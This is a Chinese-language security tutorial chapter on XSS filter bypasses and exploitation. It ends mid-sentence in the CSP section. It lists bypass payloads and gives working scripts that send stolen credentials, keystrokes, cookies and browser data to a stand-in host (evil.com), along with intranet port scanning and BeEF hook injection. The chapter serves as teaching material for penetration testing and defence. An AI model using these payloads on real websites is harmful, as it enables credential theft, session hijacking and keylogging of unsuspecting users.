




# 第19章 XSS进阶：绕过与利用

> **难度等级：🟢 简单级 → 🟡 中等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：XSS过滤绕过技巧、事件绕过、编码绕过、关键字绕过、XSS利用方式（钓鱼、键盘记录、会话劫持）、BeEF框架使用、CSP初探**
>
> ::: tip 说明
> 上一章我们学了XSS的基础知识，
> 知道了什么是XSS，
> 有哪几种类型，
> 以及最基础的Payload。
>
> 但是真实环境中，
> 很少有完全不过滤的XSS。
> 大部分网站都会做一些过滤，
> 比如过滤script标签、
> 过滤on事件、
> 过滤javascript关键字...
>
> 这时候怎么办？
> 那就需要绕过。
>
> 这一章，
> 我们就来讲讲XSS的绕过技巧，
> 以及XSS的各种利用方式。
>
> 绕过是XSS的精髓，
> 也是最有意思的部分。
> 准备好你的脑洞，
> 让我们开始！
> :::

---

## 📖 本章概述

::: tip 写在前面
很多人学XSS，
就会一个`<script>alert(1)</script>`，
遇到过滤就懵了。

其实XSS的绕过技巧非常多，
而且很考验脑洞。
同样的过滤，
可能有十种百种绕过方法。

这一章我们会讲：
- 常见的XSS过滤手段
- 各种绕过技巧（标签绕过、事件绕过、关键字绕过、编码绕过...）
- XSS的利用方式（钓鱼、键盘记录、偷Cookie...）
- BeEF框架的使用
- CSP内容安全策略初探

学完这一章，
你对XSS的理解会更上一个层次。
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 了解常见的XSS过滤手段
- [x] 掌握标签过滤的绕过方法
- [x] 掌握事件过滤的绕过方法
- [x] 掌握关键字过滤的绕过方法
- [x] 掌握编码绕过技巧
- [x] 理解XSS钓鱼攻击的原理
- [x] 理解XSS键盘记录的原理
- [x] 掌握XSS会话劫持的方法
- [x] 了解BeEF框架的基本使用
- [x] 了解CSP的基本概念

---

## 🛡️ 常见的XSS过滤手段

在讲绕过之前，
先说说常见的过滤手段有哪些。

知己知彼，
百战不殆。

> 💡 **XSS绕过的本质：规则对抗赛**
>
> 在学具体绕过技巧之前，
> 我们先理解一个核心思想：
>
> XSS过滤和绕过之间，
> 是一场**规则对抗赛**。
>
> 防守方（程序员/WAF）会写一些规则来过滤：
> - "我看到 `<script>` 就删掉"
> - "我看到 `onerror` 就删掉"
> - "我看到 `javascript:` 就删掉"
>
> 但攻击者的逻辑是：
> - 你不让用 `<script>`？我用 `` 行不行？
> - 你过滤了 `onerror`？我编码一下，写成 `onerror` 的十六进制形式？
> - 你过滤了所有HTML标签？那我用 `String.fromCharCode()` 动态构造？
>
> 这就像你和门卫斗智斗勇：
> - 门卫：不让带刀具进去
> - 你：我带了个铁片，磨一磨就是刀
> - 门卫：铁片也不让带
> - 你：我带了块石头，砸碎了边缘很锋利
> - ...
>
> **过滤永远是有漏洞的，
> 因为攻击方式可以无穷无尽地变换。**
>
> 理解了这一点，
> 你就会明白：
> 绕过不是靠"背技巧"，
> 而是靠理解HTML/JavaScript的灵活性和多样性，
> 找到过滤规则没有覆盖到的"死角"。

### 1.1 标签过滤

最常见的就是过滤标签，
比如：
- 过滤`<script>`标签
- 过滤`<iframe>`标签
- 过滤``标签
- 过滤所有HTML标签

### 1.2 事件过滤

过滤事件属性，
比如：
- 过滤`onerror`
- 过滤`onload`
- 过滤所有`on`开头的事件

### 1.3 关键字过滤

过滤一些危险的关键字，
比如：
- 过滤`javascript`
- 过滤`alert`
- 过滤`eval`
- 过滤`script`
- 过滤`cookie`

### 1.4 编码过滤

有些WAF会检测编码，
或者做一些编码转换。

### 1.5 长度限制

限制输入的长度，
比如最多只能输入50个字符。

### 1.6 特殊字符过滤

过滤一些特殊字符，
比如：
- 过滤尖括号`< >`
- 过滤引号`' "`
- 过滤反引号`` ` ``
- 过滤括号`( )`

**图19-1 XSS过滤手段与绕过思路对照图**



---

## 🏷️ 标签过滤绕过

如果过滤了`<script>`标签，
怎么办？

简单，
不用script标签不就行了！

能执行JavaScript的标签多着呢。

### 2.1 常用的可执行JS的标签

除了`<script>`，
这些标签也能执行JS：

**img标签：**
```html

```
图片加载失败时触发onerror事件。
src随便写一个不存在的地址就行。

**svg标签：**
```html
<svg onload=alert('XSS')>
```
SVG加载完成时触发onload。

**body标签：**
```html
<body onload=alert('XSS')>
```
页面加载完成时触发。

**input标签：**
```html
<input onfocus=alert('XSS') autofocus>
```
自动获取焦点，触发onfocus。

**select标签：**
```html
<select onfocus=alert('XSS') autofocus>
```

**textarea标签：**
```html
<textarea onfocus=alert('XSS') autofocus>
```

**iframe标签：**
```html
<iframe onload=alert('XSS')>
```

**video标签：**
```html
<video onerror=alert('XSS')><source>
```

**audio标签：**
```html
<audio onerror=alert('XSS')><source>
```

**details标签：**
```html
<details ontoggle=alert('XSS') open>
```

**summary标签：**
```html
<details><summary ontoggle=alert('XSS')>
```

还有很多很多，
HTML标签有上百个，
事件有几十个，
组合起来就是无穷无尽的Payload。

**图19-2 可执行JS的标签与事件分类图**

```mermaid
flowchart TD
    Root[能执行JS的方式]

    Root --> Tags[标签类]
    Root --> Events[事件类]
    Root --> Pseudo[伪协议类]

    Tags --> T1["<script> 直接执行"]
    Tags --> T2["<img src=x onerror=...>"]
    Tags --> T3["<svg onload=...>"]
    Tags --> T4["<body onload=...>"]
    Tags --> T5["<input onfocus=... autofocus>"]
    Tags --> T6["<iframe onload=...>"]
    Tags --> T7["<details ontoggle=... open>"]
    Tags --> T8["<video/audio onerror=...>"]

    Events --> E1[窗口事件<br/>onload/onerror/onresize]
    Events --> E2[表单事件<br/>onfocus/onblur/onsubmit]
    Events --> E3[鼠标事件<br/>onclick/onmouseover]
    Events --> E4[键盘事件<br/>onkeydown/onkeyup]
    Events --> E5[媒体事件<br/>onplay/onpause/onended]
    Events --> E6[其他事件<br/>ontoggle/onhashchange]

    Pseudo --> P1["<a href=javascript:...>"]
    Pseudo --> P2["<iframe src=javascript:...>"]
```



### 2.2 标签名大小写绕过

如果过滤的是小写的`<script>`，
那大小写混合呢？

```html
<Script>alert('XSS')</sCript>
<SCript>alert('XSS')</scrIPT>

```

HTML不区分大小写，
所以各种大小写组合都可以。

### 2.3 标签名插入字符绕过

有些WAF匹配不严格，
可以在标签名里插一些东西：

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

如果WAF只过滤一次，
把中间的`<script>`去掉，
剩下的就变成了完整的`<script>`。

（这就是双写绕过）

### 2.4 换行和制表符绕过

在标签里插换行、制表符：

```html

```

```html

```

有些WAF是按行匹配的，
换行了就匹配不到了。

---

## ⚡ 事件过滤绕过

如果过滤了事件怎么办？
比如过滤了`onerror`、`onload`...

没关系，
事件多着呢！

### 3.1 事件大全

HTML的事件有几十个，
我给你列一些常用的：

**窗口事件（body标签）：**
- `onload`：页面加载完成
- `onunload`：页面关闭
- `onresize`：窗口大小改变
- `onscroll`：滚动
- `onerror`：加载错误

**表单事件：**
- `onfocus`：获得焦点
- `onblur`：失去焦点
- `onchange`：内容改变
- `oninput`：输入内容
- `onselect`：选中内容
- `onsubmit`：提交表单
- `onreset`：重置表单

**鼠标事件：**
- `onclick`：点击
- `ondblclick`：双击
- `onmousedown`：鼠标按下
- `onmouseup`：鼠标抬起
- `onmouseover`：鼠标移上
- `onmouseout`：鼠标移出
- `onmousemove`：鼠标移动
- `onmouseenter`：鼠标进入
- `onmouseleave`：鼠标离开

**键盘事件：**
- `onkeydown`：按键按下
- `onkeyup`：按键抬起
- `onkeypress`：按键按下并抬起

**媒体事件（video/audio/img等）：**
- `onload`：加载完成
- `onerror`：加载错误
- `onplay`：开始播放
- `onpause`：暂停
- `onended`：播放结束

**其他事件：**
- `ontoggle`：切换（details标签）
- `onhashchange`：URL的hash改变
- `onpopstate`：历史记录改变
- `onstorage`：存储改变
- `onmessage`：收到消息
- ...

事件太多了，
几十个上百个，
WAF不可能全过滤掉。

### 3.2 事件名大小写绕过

和标签一样，
事件名也可以大小写混合：

```html

<svg OnLoAd=alert('XSS')>
```

### 3.3 事件名插入字符

在事件名中间插一些东西：

**换行/制表符：**
```html

```

**空字节：**
（某些环境下）
```html

```

### 3.4 不需要用户交互的事件

有些事件需要用户点击、鼠标移上去才能触发，
不够方便。

推荐几个不需要用户交互的：

```html
<!-- 自动触发 -->
<svg onload=alert(1)>
<body onload=alert(1)>
<iframe onload=alert(1)>

<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<details open ontoggle=alert(1)>
<video autoplay onplay=alert(1)><source>
<audio autoplay onplay=alert(1)><source>
```

这些都是页面加载就自动触发的，
不用等用户操作。

---

## 🔤 关键字过滤绕过

如果过滤了关键字呢？
比如过滤了`alert`、`script`、`javascript`、`eval`...

没关系，
绕过方法多着呢。

### 4.1 大小写绕过

这个最简单，
也最常用：

```html


```

JavaScript也不区分大小写吗？
不，JS是区分大小写的。
但是`alert`是`window`的方法，
`window.alert`和`window.ALERT`不一样。

等等，
那为什么大小写可以绕过？

因为WAF可能只匹配小写的`alert`，
但是... 不对啊，JS区分大小写，
`ALERT`会报错的。

哦，
我刚才说错了。
对于函数名，
JS是区分大小写的。
所以`ALERT()`是不行的。

那关键字怎么绕过？
往下看。

### 4.2 拼接绕过

把一个关键字拆成几部分，
再拼起来：

```html
<script>
eval('al' + 'ert' + '(1)')
</script>
```

```html

```

```html

```

```html

```

原理就是：
把字符串拼起来，
然后用eval执行，
或者用数组访问的方式调用函数。

### 4.3 编码绕过

用编码的方式绕过关键字检测。

**Unicode编码：**
```html

```
`\u0061`就是a，`\u006c`就是l...拼起来就是alert。

**八进制编码：**
```html

```

**十六进制：**
```html

```

**base64解码：**
```html

```
`YWxlcnQoMSk=`是`alert(1)`的base64编码，
用`atob()`解码，然后eval执行。

### 4.4 利用特殊函数/属性

**利用String.fromCharCode：**
```html

```
把ASCII码转成字符串，然后执行。

**利用URL编码+decodeURI：**
```html

```

### 4.5 利用location或其他对象

比如`javascript:`伪协议，
可以用编码绕过：

```html
<a href="javascrip&#x74;:alert(1)">点我</a>
```
`t`用HTML实体编码了。

```html
<a href="&#106;avascript:alert(1)">点我</a>
```
`j`用十进制实体编码。

### 4.6 注释干扰

在关键字中间插注释，
有些WAF会被注释干扰：

```html
<scr<!--test-->ipt>alert(1)</scr<!--test-->ipt>
```

（不过这个比较少见，看具体WAF）

**图19-3 关键字过滤绕过方法汇总图**



---

## 🔣 编码绕过

编码绕过是XSS绕过的重头戏。

浏览器在解析HTML的时候，
会做很多编码转换。
利用这些特性，
可以绕过很多WAF。

### 5.1 HTML实体编码

HTML实体编码有几种：
- 命名实体：`&lt;` `&gt;` `&quot;` `&apos;` `&amp;`
- 十进制：`&#数字;`
- 十六进制：`&#x数字;`

**在HTML属性中，实体编码会被解码：**

```html

```
`&#97;`是`a`的十进制编码，
浏览器会解码成`a`，
所以就变成了`alert(1)`。

**更多例子：**
```html


```

（注意：实体编码后面要有分号，
不过有些浏览器没有分号也能解析）

**标签名能用实体编码吗？**
不能。
标签名和属性名不会解析实体编码，
只有属性值会。

所以：
```html
<&#105;mg src=x onerror=alert(1)>  <!-- 不行 -->
  <!-- 不行 -->
   <!-- 行！ -->
```

### 5.2 URL编码

在URL里，
或者在某些属性里，
URL编码会被解码：

```html
<a href="javascript:%61lert(1)">点我</a>
```
`%61`是`a`的URL编码。

```html
<iframe src="javascript:%61lert(1)">
```

### 5.3 JavaScript编码

在JavaScript代码里，
可以用Unicode编码、八进制、十六进制：

```javascript
\u0061\u006c\u0065\u0072\u0074(1)  // Unicode
\x61\x6c\x65\x72\x74(1)           // 十六进制
\141\154\145\162\164(1)           // 八进制
```

这些在JS字符串里会被解码。

### 5.4 多重编码

可以编码好几次，
比如先URL编码，再HTML实体编码：

```html

```

或者更复杂的组合，
看具体WAF的解码逻辑。

### 5.5 编码绕过的核心思路

WAF和浏览器的解析逻辑不一样，
WAF可能不解码，或者只解码一次，
而浏览器会解码。

所以：
- WAF看到的是编码后的内容，匹配不到特征
- 浏览器看到的是解码后的内容，正常执行

这就是编码绕过的原理。

> 💡 **深入理解：为什么浏览器会"解码"而WAF不一定会？**
>
> 这不是一个简单的"WAF偷懒"问题，背后是
> **HTML/JS的解析顺序**决定的。
>
> 浏览器在处理一段HTML时，不是一次性解码所有内容，
> 而是分"图层"、按顺序来：
>
> ```
> 浏览器看到：<a href="javascript:&#97;lert(1)">
>
> 第一层：HTML解析
>   - 看到 <a> 标签, href= 属性
>   - 属性值是 "javascript:&#97;lert(1)"
>   - HTML解析器自动对属性值做HTML实体解码：
>     &#97; → a
>   - 结果："javascript:alert(1)"
>
> 第二层：URL协议解析
>   - 看到 href 的值以 "javascript:" 开头
>   - 告诉浏览器："这是一个要执行的JavaScript"
>
> 第三层：JavaScript引擎
>   - 执行 alert(1)
> ```
>
> 关键就在这里！
> 浏览器在第一层就自动帮我们解码了HTML实体，
> WAF可能在收到请求时只做了一次简单的字符串匹配，
> 根本不走这套"分层解码"的流程。
>
> **不同编码在不同位置有不同的效果：**
> - HTML实体编码（`&#97;`）→ 在HTML属性值里会被浏览器解码
> - URL编码（`%61`）→ 在URL位置/iframe src里会被浏览器解码
> - Unicode编码（`\u0061`）→ 在JavaScript字符串里会被JS引擎解码
> - Base64编码 → 需要调用 `atob()` 才会被解码，不会自动
>
> **所以编码绕过的核心是：**
> 在不会被WAF解码的位置（比如HTML属性值），
> 用浏览器会自动解码的编码（比如HTML实体），
> 隐藏真正的攻击Payload。
>
> 这也是为什么同一种编码，在不同的HTML位置效果完全不同：
> 因为不同位置的"解码器"不一样！

**图19-4 编码绕过原理图**

```mermaid
flowchart LR
    Payload[原始Payload<br/>alert1]
    Payload --> Encode[编码处理]
    Encode --> Encoded["编码后: &amp;#97;lert(1)<br/>&#x61;lert(1)<br/>\\u0061lert(1)"]

    Encoded --> Send[发送请求]
    Send --> WAF{WAF 检测}
    WAF -->|匹配不到 alert 特征| Pass[放行]
    Pass --> Browser[浏览器接收]

    Browser --> Decode[浏览器解码]
    Decode --> Original[还原为 alert1]
    Original --> Exec[执行 JavaScript]

    Note[关键差异:<br/>WAF不解码或只解一次<br/>浏览器会完整解码] -.-> WAF
    Note2[只有属性值会解码实体<br/>标签名/属性名不会] -.-> Decode
```



---

## 🚪 特殊字符过滤绕过

如果过滤了尖括号、引号、括号这些特殊字符，
怎么办？

### 6.1 过滤尖括号 < >

如果过滤了`<`和`>`，
那HTML标签就插不进去了。
但是还有办法：

**如果输入在属性值里：**
比如输入在`<input value="...">`的value里，
可以不用尖括号，
直接闭合引号，加事件：

```html
" onmouseover=alert(1) x="
```

这样整个标签变成：
```html
<input value="" onmouseover=alert(1) x="">
```
就触发了XSS。

**利用事件+JavaScript：**
如果能注入事件属性，
那不用标签也行。

**利用CSS表达式（IE）：**
```html
<div style="x:expression(alert(1))">
```
（只有老版本IE支持）

### 6.2 过滤引号 ' "

如果过滤了单引号和双引号，
怎么办？

**不用引号：**
```html

```
很多情况下，属性值可以不用引号。

**用反引号：**
```html

```
反引号在JS里是模板字符串，
函数名后面跟反引号也能执行。

**用String.fromCharCode：**
```html

```
不用引号，用ASCII码拼字符串。

### 6.3 过滤括号 ( )

如果过滤了括号，
函数调用就麻烦了。
但是也有办法：

**用反引号：**
```html

```
模板字符串调用函数，不用括号。

**用 onerror + throw：**
```html

```
throw会触发onerror，
把1传给alert。

**用 eval + 反引号：**
```html

```

### 6.4 过滤空格

如果过滤了空格，
怎么办？

**用换行、制表符、回车代替：**
```html

```

**用注释代替空格：**
```html

```

**用斜杠代替空格：**
```html

```

**用其他空白字符：**
`%09`（制表符）、`%0a`（换行）、`%0c`（换页）、`%0d`（回车）...
这些在某些地方都能当空格用。

---

## 🎣 XSS利用方式：钓鱼攻击

XSS不光是弹个框，
还能做很多事情。

第一个就是钓鱼。

### 7.1 什么是XSS钓鱼？

**XSS钓鱼，就是利用XSS漏洞，
在目标网站上注入一个假的登录框，
或者跳转到钓鱼网站，
诱导用户输入账号密码。**

因为是在真实网站上弹出来的，
用户很容易相信。

### 7.2 伪造登录框

在页面上插入一个假的登录框，
做得和真的一模一样。

**简单的例子：**
```html
<script>
// 创建一个遮罩层
var div = document.createElement('div');
div.style.position = 'fixed';
div.style.top = '0';
div.style.left = '0';
div.style.width = '100%';
div.style.height = '100%';
div.style.background = 'rgba(0,0,0,0.5)';
div.style.zIndex = '9999';

// 创建登录框
var box = document.createElement('div');
box.style.width = '400px';
box.style.height = '300px';
box.style.background = '#fff';
box.style.margin = '100px auto';
box.style.padding = '20px';
box.innerHTML = `
    <h2>登录超时，请重新登录</h2>
    <form>
        <p>用户名：<input id="fake-user"></p>
        <p>密码：<input type="password" id="fake-pass"></p>
        <p><button type="button" id="fake-btn">登录</button></p>
    </form>
`;

div.appendChild(box);
document.body.appendChild(div);

// 点击按钮，发送账号密码到攻击者服务器
document.getElementById('fake-btn').onclick = function() {
    var user = document.getElementById('fake-user').value;
    var pass = document.getElementById('fake-pass').value;
    new Image().src = 'http://evil.com/steal?user=' + user + '&pass=' + pass;
    alert('登录失败，请重试');
}
</script>
```

用户一看，
"哦，登录超时了，
那我重新登录一下吧。"

然后输入账号密码，
点登录，
账号密码就被偷走了。

因为是在真实网站上，
URL也是对的，
一般人根本不会怀疑。

### 7.3 跳转到钓鱼网站

直接把页面跳转到钓鱼网站：

```html
<script>
location.href = 'http://evil.com/phish.html';
</script>
```

或者嵌入一个iframe：
```html
<iframe src="http://evil.com/phish.html" width="100%" height="1000" frameborder="0">
```

### 7.4 为什么XSS钓鱼这么有效？

因为：
1. **信任度高**：在真实网站上，用户不疑有他
2. **逼真度高**：可以做得和真的一模一样
3. **针对性强**：知道用户在哪个网站，就做哪个网站的钓鱼
4. **不易察觉**：用户输完密码，甚至不知道自己被盗了

所以护网行动中，
XSS + 钓鱼是常用的组合拳。

**图19-5 XSS钓鱼攻击流程图**



---

## ⌨️ XSS利用方式：键盘记录

第二个利用方式：键盘记录。

### 8.1 什么是键盘记录？

**键盘记录，就是记录用户在页面上的所有按键，
然后发送给攻击者。**

用户输入的密码、
银行卡号、
聊天内容...
全都能被记录下来。

### 8.2 简单的键盘记录脚本

```html
<script>
var keys = '';

document.onkeydown = function(e) {
    // 获取按键
    var key = e.key;
    
    // 记录下来
    keys += key;
    
    // 每按10个键发送一次
    if (keys.length > 10) {
        new Image().src = 'http://evil.com/keylog?keys=' + encodeURIComponent(keys);
        keys = '';
    }
}

// 页面关闭时也发送一次
window.onbeforeunload = function() {
    if (keys.length > 0) {
        navigator.sendBeacon('http://evil.com/keylog?keys=' + encodeURIComponent(keys));
    }
}
</script>
```

原理就是监听`keydown`事件，
用户按一个键，
就记一个，
然后定期发给攻击者。

### 8.3 进阶的键盘记录

上面的是最简单的，
还可以做得更完善：

- 记录按键的时间
- 记录是在哪个输入框按的
- 记录鼠标点击的位置
- 记录页面的截图
- 记录复制粘贴的内容
- ...

### 8.4 键盘记录的危害

想象一下：
用户在有XSS的页面上登录，
输入账号密码，
全程被记录。

然后用户用网银，
输入银行卡号和密码，
也被记录。

用户和别人聊天，
聊了什么，
也被记录。

是不是很可怕？

---

## 🍪 XSS利用方式：会话劫持

这个最经典，
也是最常用的。

### 9.1 什么是会话劫持？

**用户登录了网站，
网站给用户发一个Cookie/Session，
用来识别用户身份。**

**如果攻击者通过XSS偷到了用户的Cookie，
就可以用这个Cookie冒充用户登录，
这就是会话劫持。**

### 9.2 怎么偷Cookie？

最简单的：
```html
<script>
new Image().src = 'http://evil.com/steal?cookie=' + document.cookie;
</script>
```

或者：
```html

```

或者：
```html
<script>
fetch('http://evil.com/steal?cookie=' + document.cookie);
</script>
```

方法很多，
核心就是把`document.cookie`发出去。

### 9.3 拿到Cookie之后怎么用？

拿到Cookie之后，
可以用浏览器插件（比如EditThisCookie），
把Cookie导入浏览器，
然后刷新页面，
你就变成那个用户了。

或者用BurpSuite，
把Cookie加到请求头里。

这样你就能：
- 看用户的个人信息
- 发帖子、发评论
- 修改密码
- 转账、消费
- ...

只要是用户能做的，
你都能做。

### 9.4 HttpOnly Cookie

如果Cookie设置了`HttpOnly`标志，
那JavaScript就读不到这个Cookie了。

这是防御XSS偷Cookie的重要手段。

但是注意，
HttpOnly只是防偷Cookie，
不能防XSS。
XSS还可以做很多其他事情，
比如钓鱼、键盘记录、内网探测...

---

## 🐟 XSS利用方式：其他利用

除了上面说的，
XSS还能做很多事情。

### 10.1 内网探测

用户的浏览器在内网里，
可以通过XSS探测内网：

```javascript
// 扫描内网端口
var ports = [80, 443, 3306, 6379, 8080];
var ips = ['192.168.1.1', '192.168.1.2', '192.168.1.100'];

ips.forEach(function(ip) {
    ports.forEach(function(port) {
        var img = new Image();
        img.onload = function() {
            // 端口开放
            new Image().src = 'http://evil.com/scan?ip=' + ip + '&port=' + port;
        }
        img.onerror = function() {
            // 端口关闭
        }
        img.src = 'http://' + ip + ':' + port + '/favicon.ico';
    });
});
```

通过加载图片的方式，
探测内网哪些IP和端口是开着的。

### 10.2 网页篡改

把网页内容改掉：

```javascript
// 改标题
document.title = '黑客入侵！';

// 改内容
document.body.innerHTML = '<h1>你的网站被黑了！</h1>';

// 加黑链
var a = document.createElement('a');
a.href = 'http://evil.com';
a.textContent = '点击中奖';
document.body.appendChild(a);
```

### 10.3 刷广告/刷流量

用用户的浏览器偷偷刷广告：

```javascript
// 创建隐藏的iframe
var iframe = document.createElement('iframe');
iframe.src = 'http://ad.com';
iframe.style.display = 'none';
document.body.appendChild(iframe);
```

### 10.4 获取浏览器信息

收集用户的浏览器信息：

```javascript
var info = {
    userAgent: navigator.userAgent,
    language: navigator.language,
    platform: navigator.platform,
    screenWidth: screen.width,
    screenHeight: screen.height,
    colorDepth: screen.colorDepth,
    cookie: document.cookie,
    url: location.href,
    referrer: document.referrer
};

new Image().src = 'http://evil.com/info?data=' + JSON.stringify(info);
```

可以知道用户用的什么浏览器、
什么操作系统、
屏幕多大、
在哪个页面...

### 10.5 结合其他漏洞

XSS还能和其他漏洞组合使用：
- XSS + CSRF：伪造用户操作
- XSS + SSRF：通过用户浏览器打内网
- XSS + 点击劫持：诱导用户点击
- ...

组合起来威力更大。

---

## 🐮 BeEF框架介绍

BeEF，全称The Browser Exploitation Framework，
浏览器攻击框架。

简单说，
就是一个强大的XSS利用平台。

### 11.1 什么是BeEF？

**BeEF是一个专门用来控制浏览器的渗透测试工具。**

你只要让目标浏览器执行一小段JS代码，
这个浏览器就被BeEF Hook了。

然后你就可以在BeEF的控制面板上，
对这个浏览器做各种操作。

### 11.2 BeEF的功能

BeEF的功能非常多，
我给你列举一些：

**信息收集：**
- 浏览器信息（版本、插件、Cookie...）
- 系统信息（操作系统、屏幕大小...）
- 网络信息（内网IP、开放端口...）
- 页面信息（URL、内容、表单...）

**社会工程学：**
- 弹出假的登录框
- 弹出假的更新提示
- 弹出假的Flash安装
- 钓鱼页面重定向

**浏览器操作：**
- 页面截图
- 键盘记录
- 点击劫持
- 网页篡改
- 重定向
- 弹窗

**网络攻击：**
- 内网端口扫描
- 内网服务探测
- CSRF攻击
- 跨域请求

**持久化：**
- 弹窗alert持久化
- iframe嵌套持久化
- ...

功能非常多，
有上百个模块。

### 11.3 BeEF的使用流程

1. **启动BeEF**
   ```bash
   beef-xss
   ```

2. **生成Hook代码**
   BeEF会给你一个JS文件的地址，
   比如：
   ```html
   <script src="http://your-ip:3000/hook.js"></script>
   ```

3. **让目标执行Hook代码**
   通过XSS漏洞，
   把这段代码注入进去。

4. **在BeEF控制面板操作**
   打开BeEF的管理界面，
   就能看到被Hook的浏览器，
   然后选各种模块来玩。

### 11.4 BeEF演示

（这里就不做具体演示了，
大家可以自己搭个环境玩玩。
Kali Linux里自带BeEF，
直接`beef-xss`就能启动。）

> ⚠️ 注意：
> BeEF是渗透测试工具，
> 只能在授权的情况下使用！
> 不要用来做违法的事情。

**图19-6 BeEF框架工作流程图**



---

## 🛡️ CSP内容安全策略初探

最后讲一下CSP，
这是XSS防御的重要手段，
也是XSS绕过时必须面对的。

### 12.1 什么是CSP？

**CSP，全称Content Security Policy，内容安全策略。**

简单说，
就是网站告诉浏览器：
- 哪些来源的脚本可以执行
- 哪些来源的图片可以加载
- 哪些来源的样式可以加载
- 哪些来源的框架可以嵌入
- ...

浏览器按照这个策略来执行，
不符合策略的就直接拦截。

### 12.2 CSP怎么设置？

通过HTTP响应头设置：
```
Content-Security-Policy: script-src 'self'; img-src 'self'; style-src 'self'
```

或者通过HTML的meta标签：
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```

### 12.3 常用的CSP指令

- `script-src`：限制脚本的来源
- `style-src`：限制样式的来源
- `img-src`：限制图片的来源
- `font-src`：限制字体的来源
- `connect-src`：限制AJAX/WebSocket等连接的来源
- `frame-src`：限制iframe的来源
- `object-src`：限制插件的来源
- `media-src`：限制媒体的来源
- `default-src`：默认的限制（上面没设置的就用这个）
- `base-uri`：限制base标签的href
- `form-action`：限制表单提交的地址
- ...

### 12.4 CSP的源

- `'self'`：和当前网站同源
- `'none'`：不允许任何来源
- `'unsafe-inline'`：允许内联脚本/样式
- `'unsafe-eval'`：允许eval等
- `*.example.com`：允许example.com的所有子域名
- `https://example.com`：允许这个特定的域名
- `data:`：允许data:协议
- ...

### 12.5 CSP能防XSS吗？

能防大部分。
如果CSP设置得好，
就算有XSS漏洞，
攻击者注入的脚本也执行不了。

但是CSP也不是万能的，
也有绕过的方法，
